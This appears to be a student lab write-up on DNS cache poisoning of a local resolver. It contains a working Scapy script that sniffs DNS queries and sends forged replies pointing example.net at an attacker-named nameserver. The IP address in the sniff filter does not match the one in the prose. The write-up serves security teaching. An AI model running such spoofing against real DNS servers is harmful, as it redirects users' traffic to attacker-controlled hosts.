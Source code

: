 #### Overview

If the attack targets the local DNS server, the damage can last much longer. This is simply because the local DNS server stores DNS results in a cache. If it puts a forged DNS reply in its cache, the cache will be "poisoned" . Therefore, DNS attacks targeting local DNS servers are called DNS cache poisoning attack. Although the damages are different, the technique to attack user machines and local DNS servers are the same, so we will only focus on attacking local DNS servers.

#### Approach
In our attack, we would like to target the queries from the local DNS server (10 . 0 . 2 . 53). In our forged reply, we map the hostname `www.example.net` to IP address `1.2.3.4`, while telling the local DNS server that the nameserver of the `example.net` domain is `ns.attacker32.com.`

I wrote a program to sniff DNS queries sent from the local DNS server (IP: `10.0.2.53`) and respond with a forged packet faster than the legitimate DNS server can. This requires careful packet filtering to ensure that we only act upon the relevant DNS queries.

```python
 #!/usr/bin/env python3
from scapy.all import *
def spoof_dns_replies(pkt):
	if (DNS in pkt and  "example.net"  in pkt[DNS].qd.qname.decode('utf-8')):

		IPpkt = IP(dst=pkt[IP].src, src=pkt[IP].dst) # Response to the client

		UDPpkt = UDP(dport=pkt[UDP].sport, sport=53) # Standard DNS port

		Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A', rdata='1.2.3.4', ttl=259200) # Spoofed IP

		NSsec = DNSRR(rrname="example.net", type='NS', rdata='ns.attacker32.com', ttl=259200)

		DNSpkt = DNS(
					id=pkt[DNS].id,
					aa=1,
					rd=0,
					qr=1,
					qdcount=1,
					ancount=1,
					nscount=1,
					qd=pkt[DNS].qd,
					an=Anssec,
					ns=NSsec
				)

		spoofpkt = IPpkt / UDPpkt / DNSpkt
		send(spoofpkt)

sniff(iface="br-800b7a6f074a", filter="udp and (src host 10.9.0.53 and dst port 53)", prn=spoof_dns_replies)
```
#### Execution Steps
